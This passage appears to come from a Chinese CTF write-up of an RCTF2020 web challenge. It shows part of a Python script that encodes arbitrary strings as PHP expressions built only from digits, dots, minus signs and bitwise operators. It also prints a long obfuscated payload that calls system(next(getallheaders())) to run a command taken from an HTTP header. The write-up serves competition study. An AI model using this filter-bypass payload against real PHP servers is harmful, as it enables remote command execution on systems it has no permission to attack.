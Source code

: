 ```python
            c = howmake(d.get('c1')) + '&' + howmake(d.get('c2'))
        elif op == '|':
            c = howmake(d.get('c1')) + '|' + howmake(d.get('c2'))
        return f'({c})'
    else:
        print('error')
        return

if __name__ == '__main__':
    while 1:
        payload = input('>')
        result = []
        for i in payload:
            result.append(howmake(ord(i)))
        result='.'.join(result)
        print(f'({result})')
```

思路就是先得到可打印字符的ascii的构造方式，然后根据传入的字符的ascii，在0123456789.-E这几个数的基础上递归拼接

![](RCTF2020 Web记录.assets/image-202006212312313.png)

然后构造system(next(getalheaders()))执行命令

```
(((((1).(0)){1})|((~(((1).(4)){1}))&((((1).(2)){1})|(((1).(0.00001)){4})))).((((1).(0)){1})|((~(((1).(4)){1}))&((((1).(8)){1})|(((1).(0.00001)){4})))).((((1).(0)){1})|((~(((1).(4)){1}))&((((1).(2)){1})|(((1).(0.00001)){4})))).((((1).(0)){1})|((((1).(0.00001)){4})&(~(((1).(1)){1})))).((((1).(0.00001)){4})|((((1).(0)){1})&(((1).(0.1)){2}))).((((1).(-1)){1})|(((1).(0.00001)){4})))((((((1).(0.1)){2})|((((1).(0.00001)){4})&(~(((1).(1)){1})))).((((1).(0.00001)){4})|((((1).(0)){1})&(((1).(0.1)){2}))).((((1).(0)){1})|((~(((1).(5)){1}))&((((1).(8)){1})|(((1).(0.00001)){4})))).((((1).(0)){1})|((((1).(0.00001)){4})&(~(((1).(1)){1})))))((((((1).(0.00001)){4})|((((1).(2)){1})&(((1).(0.1)){2}))).((((1).(0.00001)){4})|((((1).(0)){1})&(((1).(0.1)){2}))).((((1).(0)){1})|((((1).(0.00001)){4})&(~(((1).(1)){1})))).(((((1).(0)){1})&(((1).(0.1)){2}))|((((1).(0.00001)){4})&(~(((1).(4)){1})))).(((((1).(0)){1})&(((1).(0.1)){2}))|((~(((1).(1)){1}))&((((1).(8)){1})|(((1).(0.00001)){4})))).(((((1).(0)){1})&(((1).(0.1)){2}))|((~(((1).(1)){1}))&((((1).(8)){1})|(((1).(0.00001)){4})))).(((((1).(0)){1})&(((1).(0.1)){2}))|((~(((1).(5)){1}))&((((1).(8)){1})|(((1).(0.00001)){4})))).((((1).(0.00001)){4})|((((1).(0)){1})&(((1).(0.1)){2}))).(((((1).(0)){1})&(((1).(0.1)){2}))|((((1).(0.00001)){4})&(~(((1).(4)){1})))).(((((1).(0)){1})&(((1).(0.1)){2}))|((((1).(0.00001)){4})&(~(((1).(1)){1})))).((((1).(0.00001)){4})|((((1).(0)){1})&(((1).(0.1)){2}))).((((1).(0)){1})|((~(((1).(5)){1}))&((((1).(2)){1})|(((1).(0.00001)){4})))).((((1).(0)){1})|((~(((1).(4)){1}))&((((1).(2)){1})|(((1).(0.00001)){4})))))()));

```

即可